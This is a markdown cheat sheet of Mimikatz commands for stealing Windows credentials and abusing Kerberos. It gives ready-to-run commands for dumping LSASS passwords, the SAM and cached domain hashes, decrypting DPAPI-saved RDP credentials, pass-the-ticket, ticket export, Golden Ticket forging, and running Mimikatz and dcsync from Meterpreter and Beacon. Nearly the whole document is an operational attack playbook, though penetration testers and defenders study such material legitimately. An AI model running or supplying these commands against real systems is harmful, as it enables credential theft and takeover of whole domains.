 # Mimikatz and Kekeo Commands

Latest Mimikatz: https://github.com/gentilkiwi/mimikatz/releases

## Sekurlsa

Get the classic `logonpasswords` for hashes and plaintext:

`mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"`

## LSADump

Dumping a computer's SAM:

`mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam"`

This returns the SysKey, SAMKey, and hashes.

Dumping cached domain credentials (MsCacheV2):

`mimikatz.exe "privilege::debug" "token::elevate" "lsadump::cache"`

MsCacheV2 creds are type 2100 and need to be formatted for Hashcat like so:

`$DCC2$10240#USERNAME#HASH`

## DPAPI

Can be used tor ecover saved credentials, like for RDP. A good example use case: https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/

Check for saved RDP credentials and other creds:

`vaultcmd /listcreds:"Windows Credentials" /all`

Saved creds are stored in: C:\Users\<username>\AppData\Local\Microsoft\Credentials\*

Review the contents of a user's Credentials directory:

`Get-ChildItem C:\Users\<username>\AppData\Local\Microsoft\Credentials\ -Force`

Example child item: 2647629F5AA74CD934ECD2F88D64ECD0

Take a look at blob with Mimikatz:
`mimikatz.exe "dpapi::cred /in:C:\Users\some_user\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0"`

`pbData` is what we want to decrypt and `guidMasterKey` is the key.

Check lsass.exe for the key:
`mimikatz.exe "privilege::debug" "sekurlsa::dpapi"`

Look for a `masterkey` field associated with the target user. Assuming one is found, decrypt the cached credentials:

`mimikatz.exe "dpapi::cred /in:C:\Users\rasta_mouse\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b"`

Plaintext password is found in `CredentialBlob`.

## Kerberos

### Pass The Ticket

Injects one or more tickets into memory:

`mimikatz.exe "kerberos::ptt Administrateur@krbtgt-CHOCOLATE.LOCAL.kirbi"`

### Export Tickets

List and export tickets for the current session:

`mimikatz.exe "kerberos::list /export"`

### Golden Tickets

First, extract the krbtgt account's NTLM hash from a domain controller. Using Mimikatz with access to a DC:

`mimikatz.exe "privilege::debug" "lsadump::lsa /inject /name:krbtgt"`

This returns the Domain SID and hash. Now a Golden Ticket can be made for:

* User: The name of the user account the ticket will be created for. This can be a real account name, but it doesn’t have to be.
* ID: The RID of the account you will be impersonating. This could be a real account ID, such as the default administrator ID of 500, or a fake ID.
* Groups: A list of groups to which the account in the ticket will belong. This will include Domain Admins by default, so the ticket will be created with the maximum privileges.
* SIDs: This will insert a SID into the SIDHistory attribute of the account in the ticket. This is useful to authenticate across domains.

Making the ticket:

`mimikatz.exe "kerberos::golden /domain:contoso.local /sid:S-1-5-21-... /krbtgt:<krbtgt NTLM hash> /user:chris /id:500 /ptt" "misc::cmd"`

Calling `/ptt` injects the Golden Ticket into memory. Then `misc::cmd` spawns a new command window with the ticket in memory.

## Mimikatz from Meterpreter

Migrate to a 64-bit process before proceeding. Then `use kiwi` or `use mimikatz`.

## Mimikatz from a Beacon

The `logonpasswords` command will use mimikatz to recover plaintext passwords and hashes for users who are logged on to the current system. The logonpasswords command is the same as [beacon] -> Access -> Run Mimikatz.

Use `dcsync [DOMAIN.FQDN] [DOMAIN\user]` to pull a password hash for a user from the domain controller. This technique uses Windows APIs built to sync information between domain controllers. It requires a Domain Administrator trust relationship. Beacon uses Mimikatz to execute this technique.

Use `mimikatz` to execute a custom Mimikatz command, such as those above. Prefix a command with a `!` to force mimikatz to elevate to SYSTEM before it runs your command. For example, mimikatz `!lsa::cache` will recover salted password hashes cached by the system.